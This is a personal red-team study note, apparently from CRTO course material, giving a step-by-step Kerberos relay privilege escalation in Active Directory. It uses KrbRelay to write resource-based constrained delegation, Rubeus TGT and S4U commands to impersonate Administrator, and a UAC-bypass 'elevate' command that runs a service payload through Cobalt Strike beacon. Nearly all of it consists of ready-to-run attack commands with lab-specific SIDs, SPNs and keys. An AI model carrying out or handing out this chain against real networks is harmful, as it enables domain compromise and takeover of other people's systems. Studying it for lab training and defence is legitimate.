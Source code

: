 
1) You need to use [KrbRelay](https://github.com/cube0x0/KrbRelay)
2) Increment your tasks max size, add this line to your Malleable profile

`set tasks_max_size "2097152";`
This implies restarting the C2 and regenerating the payloads. Speed will decrease.

3) Remember this attack involves [[Resource Based Constrained Delegation RBCD]], and you need to control a machine (SYSTEM). If you don't, check the section where you create a new machine (first part) and obtain its SID with this:

`powershell Get-DomainComputer -Identity joseComputer -Properties objectsid`

4) The next step is to find a suitable port for the OXID resolver to circumvent a check in the Remote Procedure Call Service (RPCSS).  This can be done with `CheckPort.exe`.

```
beacon> execute-assembly C:\Tools\KrbRelay\CheckPort\bin\Release\CheckPort.exe
[*] Looking for available ports..
[*] SYSTEM Is allowed through port 10
```

5) With that, run KrbRelay.
```
beacon> execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/dc-2.dev.cyberbotic.io -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-569305411-121244042-2357301523-9101 -port 10
```

Where:

- `-spn` is the target service to relay to.
- `-clsid` represents `RPC_C_IMP_LEVEL_IMPERSONATE`.
- `-rbcd` is the SID of the fake computer account.
- `-port` is the port returned by CheckPort.

6) You can do a sanity check to see if the msDS property was written correctly

`beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity`

7) Because we have the password associated with the fake computer we created, we can request a TGT:
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:1DE19DC9065CFB29D6F3E034465C56D1AEC3693DB248F04335A98E129281177A /nowrap
```

 then perform an [[S4U2Self Abuse]] to obtain a usable service tickets for our machine
 
`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:EvilComputer$ /impersonateuser:Administrator /msdsspn:host/wkstn-2 /ticket:doIF8j[...snip...]MuaW8= /ptt`

8) To perform the elevation, we'll use this ticket to interact with the local Service Control Manager over Kerberos to create and start a service binary payload.  To streamline this, we can use a BOF and Aggressor Script that registers a new `elevate` command in Beacon.  It can be found [here](https://github.com/rasta-mouse/SCMUACBypass)

`beacon> elevate svc-exe-krb tcp-local`

### ⚠ Opsec




### Properties
---
📆 created   {{19-02-2024}} 15:36
🏷️ tags: #redteam #crto 

---

